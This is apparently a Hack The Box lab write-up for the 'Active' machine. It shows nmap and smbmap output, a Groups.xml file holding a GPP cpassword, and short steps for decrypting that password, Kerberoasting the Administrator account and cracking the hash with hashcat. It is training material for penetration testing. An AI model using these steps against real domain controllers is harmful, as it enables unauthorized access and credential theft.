



# Active
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV 10.10.10.100
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-11 09:34 BST
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 5.75% done; ETC: 09:34 (0:00:16 remaining)
Nmap scan report for 10.10.10.100 (10.10.10.100)
Host is up (0.17s latency).
Not shown: 982 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-06-11 08:34:18Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-06-11T08:35:17
|_  start_date: 2023-06-11T08:16:24
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required
|_clock-skew: -30s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.06 seconds
```
- `SMB` enumeration
  - `enum4linux 10.10.10.100`



- Check `Replication` share
```
┌──(kali㉿kali)-[~]
└─$ smbmap -H 10.10.10.100 -R         
[+] IP: 10.10.10.100:445        Name: 10.10.10.100                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Replication                                             READ ONLY
        .\Replication\*
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    active.htb
        .\Replication\active.htb\*
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    DfsrPrivate
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    Policies
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    scripts
        .\Replication\active.htb\DfsrPrivate\*
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    ConflictAndDeleted
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    Deleted
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    Installing
        .\Replication\active.htb\Policies\*
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    {31B2F340-016D-11D2-945F-00C04FB984F9}
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    {6AC1786C-016F-11D2-945F-00C04fB984F9}
        .\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\*
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    ..
        fr--r--r--               23 Sat Jul 21 11:38:11 2018    GPT.INI
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    Group Policy
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    MACHINE
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    USER
        .\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\*
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    ..
        fr--r--r--              119 Sat Jul 21 11:38:11 2018    GPE.INI
        .\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\*
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    Microsoft
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    Preferences
        fr--r--r--             2788 Sat Jul 21 11:38:11 2018    Registry.pol
        .\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\*
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    Windows NT
        .\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\*
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    Groups
        .\Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\*
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    ..
        fr--r--r--               22 Sat Jul 21 11:38:11 2018    GPT.INI
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    MACHINE
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    USER
        .\Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\*
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    Microsoft
        .\Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\*
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 11:37:44 2018    Windows NT
        SYSVOL                                                  NO ACCESS       Logon server share 
        Users                                                   NO ACCESS

```

- Let's open `Groups.xml`

```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
~
```


## Foothold/User
- We got a password from `smb` enumeration
  - Let's decrypt using `gpp-decrypt`


## Root
- Since it's a Domain Controller
  - Let's do basic enumeration for Active Directory
  - Check SPN's 


- And we get Administrator's hash
  - Let's crack it
  - `hashcat -m 13100 admin.hash /usr/share/wordlists/rockyou.txt`



- Rooted


